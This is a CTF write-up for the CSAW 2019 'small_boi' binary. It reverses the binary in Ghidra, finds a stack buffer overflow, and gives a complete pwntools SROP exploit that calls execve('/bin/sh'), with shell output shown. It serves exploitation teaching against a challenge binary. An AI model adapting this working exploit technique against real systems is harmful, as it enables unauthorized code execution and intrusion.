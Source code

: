 # Csaw 2019 Smallboi

Let's take a look at the binary:

```
$    file small_boi
small_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=070f96f86ab197c06c4a6896c26254cce3d57650, stripped
$    pwn checksec small_boi
[*] '/Hackery/pod/modules/16-srop/csaw19_smallboi/small_boi'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./small_boi
15935728
```

So we can see that we are dealing with a `64` bit binary, with `NX`. When we run the binary, it prompts us for input.

## Reversing

So when we look at the binary in Ghidra, we see some interesting assembly:

```
                             //
                             // .text
                             // SHT_PROGBITS  [0x40017c - 0x4001c9]
                             // ram: 0040017c-004001c9
                             //
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined FUN_0040017c()
             undefined         AL:1           <RETURN>
                             FUN_0040017c                                    XREF[3]:     004001e0, 00400218(*),
                                                                                          _elfSectionHeaders::00000090(*)  
        0040017c 55              PUSH       RBP
        0040017d 48 89 e5        MOV        RBP,RSP
        00400180 b8 0f 00        MOV        EAX,0xf
                 00 00
        00400185 0f 05           SYSCALL
        00400187 90              NOP
        00400188 5d              POP        RBP
        00400189 c3              RET
        0040018a 58              ??         58h    X
        0040018b c3              ??         C3h
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined FUN_0040018c()
             undefined         AL:1           <RETURN>
             undefined1        Stack[-0x28]:1 local_28                                XREF[1]:     00400190(*)  
                             FUN_0040018c                                    XREF[3]:     entry:004001b6(c), 004001e8,
                                                                                          00400238(*)  
        0040018c 55              PUSH       RBP
        0040018d 48 89 e5        MOV        RBP,RSP
        00400190 48 8d 45 e0     LEA        RAX=>local_28,[RBP + -0x20]
        00400194 48 89 c6        MOV        RSI,RAX
        00400197 48 31 c0        XOR        RAX,RAX
        0040019a 48 31 ff        XOR        RDI,RDI
        0040019d 48 c7 c2        MOV        RDX,0x200
                 00 02 00 00
        004001a4 0f 05           SYSCALL
        004001a6 b8 00 00        MOV        EAX,0x0
                 00 00
        004001ab 5d              POP        RBP
        004001ac c3              RET
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined entry()
             undefined         AL:1           <RETURN>
                             entry                                           XREF[4]:     Entry Point(*), 00400018(*),
                                                                                          004001f0, 00400258(*)  
        004001ad 55              PUSH       RBP
        004001ae 48 89 e5        MOV        RBP,RSP
        004001b1 b8 00 00        MOV        EAX,0x0
                 00 00
        004001b6 e8 d1 ff        CALL       FUN_0040018c                                     undefined FUN_0040018c()
                 ff ff
        004001bb 48 31 f8        XOR        RAX,RDI
        004001be 48 c7 c0        MOV        RAX,0x3c
                 3c 00 00 00
        004001c5 0f 05           SYSCALL
        004001c7 90              NOP
        004001c8 5d              POP        RBP
        004001c9 c3              RET
                             //
                             // .rodata
                             // SHT_PROGBITS  [0x4001ca - 0x4001d1]
                             // ram: 004001ca-004001d1
                             //
                             s_/bin/sh_004001ca                              XREF[1]:     _elfSectionHeaders::000000d0(*)  
        004001ca 2f 62 69        ds         "/bin/sh"
                 6e 2f 73
                 68 00
```

So we see a small amount of assembly instructions. We see that it starts at `0x4001ad`, which it then calls the `0x40018c` function. We see that that code there will make a read syscall, which will scan in `0x200` bytes worth of data. Looking at the layout of the stack (or just checking out the memory in gdb), we see that after `0x28` bytes of input from that read syscall we overwrite the return address. So we have a buffer overflow.

## Exploitation

So we can get code execution. The problem now is what code will we execute? The binary has very little instructions with it, and isn't linked with libc:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /Hackery/pod/modules/16-srop/csaw19_smallboi/small_boi
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /Hackery/pod/modules/16-srop/csaw19_smallboi/small_boi
0x00007ffff7ffb000 0x00007ffff7ffe000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

In addition to that, the Stack is not executable. However there is a function that will help us:

```
                             //
                             // .text
                             // SHT_PROGBITS  [0x40017c - 0x4001c9]
                             // ram: 0040017c-004001c9
                             //
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined FUN_0040017c()
             undefined         AL:1           <RETURN>
                             FUN_0040017c                                    XREF[3]:     004001e0, 00400218(*),
                                                                                          _elfSectionHeaders::00000090(*)  
        0040017c 55              PUSH       RBP
        0040017d 48 89 e5        MOV        RBP,RSP
        00400180 b8 0f 00        MOV        EAX,0xf
                 00 00
        00400185 0f 05           SYSCALL
        00400187 90              NOP
        00400188 5d              POP        RBP
        00400189 c3              RET
        0040018a 58              ??         58h    X
        0040018b c3              ??         C3h
```

This will make a sigreturn call, where the input is what is on the stack. What we can do is call this function, and provide a sigreturn frame as the input. This will allow us to perform an SROP attack. When we do this, the stack will shift by `0x8` bytes so we will need to account for that in our exploit.

Now for the SROP attack, we will make a syscall to `execve("/bin/sh", NULL, NULL)`. Luckily for us, the string `/bin/sh` is in the binary at `0x4001ca`:

```
                             //
                             // .rodata
                             // SHT_PROGBITS  [0x4001ca - 0x4001d1]
                             // ram: 004001ca-004001d1
                             //
                             s_/bin/sh_004001ca                              XREF[1]:     _elfSectionHeaders::000000d0(*)  
        004001ca 2f 62 69        ds         "/bin/sh"
                 6e 2f 73
                 68 00
```

That is everything we need to write the exploit.

## Exploit

Putting it all together, we have the following exploit:

```
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './small_boi': pid 3434
[*] Switching to interactive mode
$ w
 21:17:05 up 16 min,  1 user,  load average: 0.12, 0.19, 0.28
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               21:00   ?xdm?  51.68s  0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
exploit.py  readme.md  small_boi
$  
```